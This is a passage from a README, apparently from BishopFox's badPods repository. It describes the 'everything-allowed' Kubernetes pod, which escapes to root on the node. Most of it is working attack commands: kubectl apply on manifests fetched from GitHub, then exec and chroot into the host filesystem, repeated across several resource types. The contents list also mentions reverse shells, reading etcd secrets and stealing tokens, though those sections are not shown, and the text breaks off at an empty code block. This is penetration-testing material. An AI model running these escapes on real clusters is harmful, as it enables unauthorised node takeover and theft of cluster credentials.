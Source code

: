 # Bad Pod #1: Everything allowed

The everything-allowed pod mounts the host’s filesystem to the pod, and gives you access to all of the host's namespaces and capabilities. You then exec into your pod and chroot to the directory where you mounted the host’s filesystem. You now have root on the node running your pod. 

## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Can you run your pod on a control-plane node](#can-you-run-your-pod-on-a-control-plane-node)
    - [Read secrets from etcd](#read-secrets-from-etcd)
  - [Look for kubeconfigs in the host filesystem](#look-for-kubeconfigs-in-the-host-filesystem)
  - [Grab all tokens from all pods on the system](#grab-all-tokens-from-all-pods-on-the-system)
  - [Some other ideas](#some-other-ideas)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
kubectl exec -it everything-allowed-exec-pod -- chroot /host bash
```
**Job**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/job/everything-allowed-exec-job.yaml 
kubectl get pods | grep everything-allowed-exec-job      
kubectl exec -it everything-allowed-exec-job-[ID] -- chroot /host bash
```
**CronJob**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/cronjob/everything-allowed-exec-cronjob.yaml 
kubectl get pods | grep everything-allowed-exec-cronjob      
kubectl exec -it everything-allowed-exec-cronjob-ID -- chroot /host bash
```
**Deployment**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/deployment/everything-allowed-exec-deployment.yaml 
kubectl get pods | grep everything-allowed-exec-deployment        
kubectl exec -it everything-allowed-exec-deployment-[ID] -- chroot /host bash
```
**StatefulSet (This manifest also creates a service)**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/statefulset/everything-allowed-exec-statefulset.yaml
kubectl get pods | grep everything-allowed-exec-statefulset
kubectl exec -it everything-allowed-exec-statefulset-[ID] -- chroot /host bash
```
**ReplicaSet**  
```bash
```